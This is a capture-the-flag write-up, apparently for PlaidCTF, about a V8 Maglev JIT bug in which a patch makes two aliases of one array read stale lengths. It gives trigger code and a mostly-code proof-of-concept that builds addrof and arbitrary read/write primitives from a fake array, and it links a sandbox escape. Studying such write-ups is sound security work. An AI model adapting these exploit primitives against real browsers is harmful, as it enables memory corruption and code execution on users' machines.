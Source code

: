 # PlaidCTF

## RCA

The compiler lacks alias analysis, thus it treats an array with two names as two distinct arrays. Typically, it clears all known properties if a store operation occurs. However, the patch changes `kStore` to `kLoad`, preventing the compiler from clearing all known properties. Consequently, pushing with two aliases of an array results in reading the length from two different caches. This leads to a failure in expanding the elements array due to an incorrect length.

The vuln can be triggered by the following code:

```javascript
let cor_arr;
let arr = [];
let arr2 = arr;
function f() {
        arr2.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr.push(1.1);
        arr2.push(2.2);
        % DebugPrint(arr);
        % DebugPrint(cor_arr);
}
  
% PrepareFunctionForOptimization(f)
f();
f();
% OptimizeMaglevOnNextCall(f);
arr = [];
arr.push(1.1);
cor_arr=[1.1,2.2,3.3,4.4];
arr2=arr;

f();
```

Regarding the V8 sandbox escape method, I utilized a previously discovered technique. Check [here](https://github.com/rycbar77/V8-Sandbox-Escape-via-Regexp) for more details. 

## POC

I will put the public version of the exploit here. The exploit strategy involves overwriting the elements of an object array with the address of a fake array object with an extraordinarily long length. This allows us to achieve the addrof and aar/w primitives through out-of-bounds read and write operations with the fake array.

```javascript
new ArrayBuffer(0x7fe00000);
new ArrayBuffer(0x7fe00000);
let fakeobj_arr = [3.79625217988789578926595419814E-311, 1.11253693094151915301246343349E-308, 3.3, 4.4];
let float_arr = [1.1, 2.2, 3.3, 4.4];
let obj_arr = [fakeobj_arr, fakeobj_arr];

new ArrayBuffer(0x7fe00000);
new ArrayBuffer(0x7fe00000);

class Helpers {
    constructor() {
        this.buf = new ArrayBuffer(8);
        this.dv = new DataView(this.buf);
        this.u8 = new Uint8Array(this.buf);
        this.u32 = new Uint32Array(this.buf);
        this.u64 = new BigUint64Array(this.buf);
        this.f32 = new Float32Array(this.buf);
        this.f64 = new Float64Array(this.buf);

        this.roots = new Array(0x30000);
        this.index = 0;
    }

    pair_i32_to_f64(p1, p2) {
        this.u32[0] = p1;
        this.u32[1] = p2;
        return this.f64[0];
    }

    i64tof64(i) {
        this.u64[0] = i;
        return this.f64[0];
    }

    f64toi64(f) {
        this.f64[0] = f;
        return this.u64[0];
    }

    set_i64(i) {
        this.u64[0] = i;
    }

    set_l(i) {
        this.u32[0] = i;
    }

    set_h(i) {
        this.u32[1] = i;
    }

    get_i64() {
        return this.u64[0];
    }

    ftoil(f) {
        this.f64[0] = f;
        return this.u32[0]
    }

    ftoih(f) {
        this.f64[0] = f;
        return this.u32[1]
    }

    add_ref(object) {
        this.roots[this.index++] = object;
    }

    mark_sweep_gc() {
        new ArrayBuffer(0x7fe00000);
    }

    scavenge_gc() {
        for (var i = 0; i < 8; i++) {
            // fill up new space external backing store bytes
            this.add_ref(new ArrayBuffer(0x200000));
        }
        this.add_ref(new ArrayBuffer(8));
    }

    hex(i) {
        return i.toString(16).padStart(16, "0");
    }

    breakpoint() {
        this.buf.slice();
    }
}

var helper = new Helpers();

// =================== //
//     Start here!     //
// =================== //

let cor_arr;
let arr = [];
let arr2 = arr;
function f() {
    cor_arr = [arr,arr];
    arr2.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr.push(1.1);
    arr2.push(7.7);
    arr2.push(1.11976954038269569130094751573E-307);
}
  
for (var i = 0; i < 0x1000; i++) {
    f();
}


arr = [];
arr.push(1.1);

arr2 = arr;
f();


let cor = cor_arr[0];

function aar(address) {
    cor[12] = helper.pair_i32_to_f64(address - 8, 0x80);
    return float_arr[0];
}

function aaw(address, value) {
    cor[12] = helper.pair_i32_to_f64(address - 8, 0x80);
    float_arr[0] = value;
}


function addrof(obj) {
    obj_arr[0] = obj;
    return helper.ftoil(cor[14]);
}
```
